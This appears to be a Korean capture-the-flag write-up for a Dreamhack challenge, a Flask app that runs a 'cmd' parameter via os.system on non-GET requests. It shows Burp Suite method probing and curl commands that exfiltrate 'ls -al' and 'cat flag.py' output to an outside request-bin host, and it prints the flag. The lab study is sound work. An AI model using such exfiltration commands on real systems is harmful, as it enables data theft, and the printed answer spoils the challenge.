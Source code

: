 문제는 **Read the flag file XD** 입니다.  

뭔가 flag 파일을 찾는 문제인 것 같다.  

```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```

코드를 보면 다음과 같은 기능을 한다.  
1. cmd 를 url에서 입력받는다.
2. 만약, request method 가 **GET 이면, 아무것도 안함**
3. 그게 아니라 request method 가 **GET이 아니면, 입력받은 cmd 를 실행**한다.

<img src="1.jpg"> <img src="2.jpg">  

처음에 들어가면, cmd를 입력하라는 문구가 나온다. 

그리고 예시를 작성하면, 다음과 같이 적은 cmd가 나오는 것을 알 수 있다.  

<img src="3.jpg"> <img src="4.jpg">  

burp suite를 이용해 cmd에 ls를 적었을 때의 request message를 봤다.  

예시를 들어서, **GET 메소드로 request**를 한다면, 위의 이미지처럼 그냥 **아무것도 하지 않고 'ls' 가 나오는 것**을 알 수 있다.  

<img src="5.jpg"> <img src="6.jpg">  

그래서 GET 메소드 말고 다른 메소드인 **POST 를 통해 request** 를 했다.  

그런데 **POST 메소드는 지원하지 않는다**고 나왔다.  

그럼 어떤 메소드를 이용해야할까?

## Repeater로 request 보내기

그 전에, Proxy를 이용해 request를 보내면 response를 받을 수 없다.  

그래서 request를 **Repeater** 로 보내야 한다.  

<img src="15.jpg"> 

여기서 Repeater로 들어가면, 다음과 같이 나온다.  

<img src="16.jpg">  

여기까지 오면 그래서 **어떤 메소드를 사용**해야 하는 지 의문일 것이다.  

이럴 때 **어떤 메소드를 허가**하는지 알 수 있는 메소드가 있다.  

<img src="7.jpg"> <img src="8.jpg">  

바로 `OPTION` 이다.(https://gnaseel.tistory.com/24)  
그래서 위의 이미지처럼 OPTION 을 이용해서 request 를 했고, 이에 대한 response message로 **HEAD, OPTIONS, GET** 을 사용할 수 있다는 것을 알았다.  

<img src="9.jpg"> <img src="17.jpg">  

`HEAD(GET과 동일, 그러나 response body가 없음)`로 request 하면 POST 때처럼 오류가 발생하지 않는다.  

그러나 우리가 원하는 cmd의 결과를 받을 수 없다.  

여기서 어떻게 해야할 지 모르겠어서 찾아봤다.  

결론적으로 **새로운 서버를 열어서 그 서버로 적은 cmd를 요청**하면 된다는 것이다.  

여기서 드림핵에서 제공해준 도구인 **https://tools.dreamhack.games/myrequest** 에서 **Request Bin** 를 사용할 수 있다.  

<img src="10.jpg">  

참고로 나에게 주어진 서버는 `https://ntjbkyc.request.dreamhack.games` 이다.  

여기까지 하면 cmd 결과를 받을 서버까지 만든 상태이다.  

그렇다면 cmd 결과를 서버로 전송하는 명령어는 무엇일까?  
바로 **curl** 이다.(https://inpa.tistory.com/entry/LINUX-%F0%9F%93%9A-CURL-%EB%AA%85%EB%A0%B9%EC%96%B4-%EC%82%AC%EC%9A%A9%EB%B2%95-%EB%8B%A4%EC%96%91%ED%95%9C-%EC%98%88%EC%A0%9C%EB%A1%9C-%EC%A0%95%EB%A6%AC)  

<img src="11.jpg">  

즉, cmd에 `curl -X POST -d "$(ls -al)" https://ntjbkyc.request.dreamhack.games` 같이 명령어를 적는다.(공백은 `%20` 으로, 따옴표는 `%22`로 바꿔서 적기)  

`https://ntjbkyc.request.dreamhack.games` 에 **POST 방식**으로 문제 사이트에서 **ls -al 를 실행한 결과**를 **전송**하는 명령이다.  

<img src="12.jpg">  

**ls -al** 를 했을 때 **flag.py** 가 있는 것을 확인했으므로, `cat flag.py` 를 하면 끝이다.  

<img src="13.jpg">  

이전처럼 `curl -X POST -d "$(cat flag.py)" https://ntjbkyc.request.dreamhack.games` 이렇게 cmd에 값을 넣는데, **cat flag.py** 로 flag를 출력한다.  

<img src="14.jpg">  

따라서 정답은 **DH{4c9905b5abb9c3eb10af4ab7e1645c23}** 이다.  

# curl 내용 추가

(https://studyforall.tistory.com/22)

`curl+(복사한 Dreamhack Tools 링크)+-d+"$(명령)"`
으로도 가능하다.  

1. `+` : 띄어쓰기
2. `-d` : curl 명령어의 옵션. 데이터를 POST 요청으로 전송
3. `$(셸 명령)` : 쉘 명령을 실행하는 명령(Command Injection에서 배움)

즉, `curl https://ntjbkyc.request.dreamhack.games -d "$(cat flag.py)"` 도 가능하다.  
-> `curl+https://ntjbkyc.request.dreamhack.games+-d+"$(cat+flag.py)"`

<img src="18.jpg">
